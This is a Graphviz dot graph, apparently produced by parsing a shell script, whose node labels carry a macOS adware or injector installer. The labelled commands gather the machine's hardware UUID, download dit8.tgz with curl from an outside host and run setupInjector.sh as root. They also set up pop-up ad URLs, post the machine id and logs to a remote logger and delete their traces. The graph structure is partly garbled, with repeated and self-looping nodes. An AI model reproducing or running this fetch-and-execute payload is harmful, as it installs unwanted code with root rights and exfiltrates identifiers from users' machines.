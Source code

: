 digraph {
0 [label="updFile=/var/tmp/updText.txt "];
0 -> 0
2 [label="updFileError=/var/tmp/updTextError.txt "];
2 -> 4 [label="N,;,"];
4 [label="chmod 777 $updFile "];
4 -> 6 [label="N,;,"];
6 [label="chmod 777 $updFileError "];
6 -> 8 [label=";,"];
8 [label="echo $updFile "];
8 -> 192 [label=";,"];
192 [label="$updFile "];
192 -> 192
12 [label="echo $updFileError "];
12 -> 12
168 [label="$updFileError "];
168 -> 168
16 [label="br_mid=$(ioreg -rd1 -c IOPlatformExpertDevice | awk \'/IOPlatformUUID/ { split($0 "];
16 -> 16
18 [label="ioreg -rd1 -c IOPlatformExpertDevice "];
18 -> 20 [label="N,N,N,"];
20 [label="awk /IOPlatformUUID/ { split($0 "];
20 -> 22 [label="N,"];
22 [label="midFile=$(find /System/Library/Frameworks -type f -name \"*.uuid.plist\" -print0 | xargs -0 ls -tl | sort -n | tail -1 | awk \'{print $9}\ "];
22 -> 22
24 [label="find /System/Library/Frameworks -type f -name *.uuid.plist -print0 "];
24 -> 26 [label="N,N,N,"];
26 [label="xargs -0 ls -tl "];
26 -> 28 [label="N,"];
28 [label="sort -n "];
28 -> 98 [label="N,"];
98 [label="tail -1 "];
98 -> 32 [label="N,"];
32 [label="awk {print $9} "];
32 -> 34 [label="N,"];
34 [label="[ -e $midFile ] "];
34 -> 36 [label="SC,N,if,"];
36 [label="mid=$(echo \"$midFile\" | python -c \'import sys "];
36 -> 96 [label=";,then,"];
96 [label="echo $midFile "];
96 -> 40 [label="N,N,N,"];
40 [label="python -c import sys "];
40 -> 42 [label="N,"];
42 [label="echo mid: $mid. $updFile "];
42 -> 192 [label="\n,"];
192 [label="$updFile "];
192 -> 192
46 [label="get_pd_client_data=http://93a555685cc7443a8e1034efa1f18924.com/v/cld?mid=$br_mid&ct=pd "];
46 -> 48 [label="\n,fi,"];
48 [label="data=$(curl -s \"$get_pd_client_data\") "];
48 -> 50 [label="N,"];
50 [label="curl -s $get_pd_client_data "];
50 -> 52 [label="N,N,"];
52 [label="dc=PP5ddfd484f2030d9c-0-NM-XX "];
52 -> 52
54 [label=", word=\"channel=$(echo $dc | tr -d '[[:space:]]' | tr -cd 0-9)\" "];
54 -> 56 [label="N,"];
56 [label="echo $dc "];
56 -> 58 [label="N,N,N,"];
58 [label="tr -d [[:space:]] "];
58 -> 60 [label="N,"];
60 [label="tr -cd 0-9 "];
60 -> 62 [label="N,"];
62 [label="pdChannel=${dc:2} "];
62 -> 62
64 [label="echo DC: $dc $updFile "];
64 -> 192 [label="N,"];
192 [label="$updFile "];
192 -> 192
68 [label="click_id=0 "];
68 -> 68
70 [label="echo CLICK_ID: $click_id $updFile "];
70 -> 192 [label="N,"];
192 [label="$updFile "];
192 -> 192
74 [label="click_stamp= "];
74 -> 74
76 [label="echo CLICK_STAMP: $click_stamp $updFile "];
76 -> 192 [label="N,"];
192 [label="$updFile "];
192 -> 192
80 [label="id=$dc--$click_id___$click_stamp___$br_mid "];
80 -> 80
82 [label="echo Full ID: $id $updFile "];
82 -> 192 [label="N,"];
192 [label="$updFile "];
192 -> 192
86 [label="domain=http://aae9598c815c1745bd9f387c226fc02427.com "];
86 -> 86
88 [label="pop_url=http://aae9598c815c1745bd9f387c226fc02427.com/pp/fd?re=1&uid=[MACHINE_ID]&u=[CONTEXT_URL] "];
88 -> 90 [label="N,"];
90 [label="pop_delay=1 "];
90 -> 92 [label="N,"];
92 [label="[ $midFile ] "];
92 -> 94 [label="N,SC,N,if,"];
94 [label="frm=$(echo $midFile | tail -1 | awk -F \"/\" \'{print $5}\' | awk -F \".\" \'{print $1}\ "];
94 -> 96 [label=";,then,"];
96 [label="echo $midFile "];
96 -> 98 [label="N,N,N,"];
98 [label="tail -1 "];
98 -> 100 [label="N,"];
100 [label="awk -F / {print $5} "];
100 -> 102 [label="N,"];
102 [label="awk -F . {print $1} "];
102 -> 104 [label="N,"];
104 [label="mid_proc=false "];
104 -> 106 [label="fi,"];
106 [label="[ $frm ] "];
106 -> 108 [label="N,SC,N,if,"];
108 [label="ps -ef "];
108 -> 110 [label=";,then,SC,N,if,N,"];
110 [label="grep -v grep "];
110 -> 112 [label="N,"];
112 [label="grep -q $frm "];
112 -> 114 [label="N,"];
114 [label="mid_proc=true "];
114 -> 116 [label=";,then,"];
116 [label="echo midFile: $midFile. $updFile "];
116 -> 192 [label="N,fi,fi,"];
192 [label="$updFile "];
192 -> 192
120 [label="echo frm: $frm $updFile "];
120 -> 120
192 [label="$updFile "];
192 -> 192
124 [label="echo mid_proc: $mid_proc $updFile "];
124 -> 124
192 [label="$updFile "];
192 -> 192
128 [label="tmpfile=/var/tmp/dit8.tgz "];
128 -> 130 [label="N,(,),SC,{,"];
130 [label="filePath=/var/tmp/Injector10052016 "];
130 -> 132 [label="N,\n,"];
132 [label="/usr/bin/curl -s -L -o $tmpfile http://pullmenow.com/pd_files/dit8.tgz "];
132 -> 170 [label="N,\n,"];
170 [label="sleep 10 "];
170 -> 136 [label="\n,"];
136 [label="tar -xzf $tmpfile -C /var/tmp/ "];
136 -> 194 [label="\n,"];
194 [label="sleep 5 "];
194 -> 140 [label="\n,"];
140 [label="cd $filePath "];
140 -> 142 [label="\n,"];
142 [label="sudo chmod 777 $filePath/setupInjector.sh "];
142 -> 144 [label="\n,"];
144 [label="echo sudo $filePath/setupInjector.sh A$pdChannel $click_id $domain $updFile "];
144 -> 192 [label="\n,"];
192 [label="$updFile "];
192 -> 192
148 [label="sudo $filePath/setupInjector.sh A$pdChannel $click_id $domain "];
148 -> 186 [label="\n,"];
186 [label="sleep 30 "];
186 -> 152 [label="\n,"];
152 [label="shouldPDInj=1 "];
152 -> 154 [label="\n,},"];
154 [label="echo $shouldPDInj "];
154 -> 156 [label="N,"];
156 [label="[ $shouldPDInj == 1 ] "];
156 -> 158 [label="SC,N,if,"];
158 [label="echo vs_inj_no_mid $updFile "];
158 -> 192 [label=";,then,"];
192 [label="$updFile "];
192 -> 192
162 [label="echo Installing pInj with logger $updFile "];
162 -> 192 [label="\n,"];
192 [label="$updFile "];
192 -> 192
166 [label="pInj $updFileError "];
166 -> 168 [label="\n,"];
168 [label="$updFileError "];
168 -> 168
170 [label="sleep 10 "];
170 -> 172 [label=";,"];
172 [label="echo $(</var/tmp/updTextError.txt) $updFile "];
172 -> 176 [label="\n,"];
176 [label="/var/tmp/updTextError.txt "];
176 -> 176 [label="N,"];
176 [label="/var/tmp/updTextError.txt "];
176 -> 176
192 [label="$updFile "];
192 -> 192
180 [label="echo vs_inj_mid: $mid $updFile "];
180 -> 192 [label="\n,else,"];
192 [label="$updFile "];
192 -> 192
184 [label="eventType=Update Script Output "];
184 -> 186 [label="fi,"];
186 [label="sleep 30 "];
186 -> 188 [label="N,"];
188 [label="curl --request POST http://93a555685cc7443a8e1034efa1f18924.com/v/pd-logger --data vs_mid=$mid --data br_mid=$br_mid --data-urlencode event_type=$eventType --data-urlencode event_data=$(<$updFile) "];
188 -> 188
192 [label="$updFile "];
192 -> 192 [label="N,"];
192 [label="$updFile "];
192 -> 192
194 [label="sleep 5 "];
194 -> 194
196 [label="rm -rf $updFile "];
196 -> 196
198 [label="rm -rf /var/tmp/updText2.txt "];
198 -> 198
}
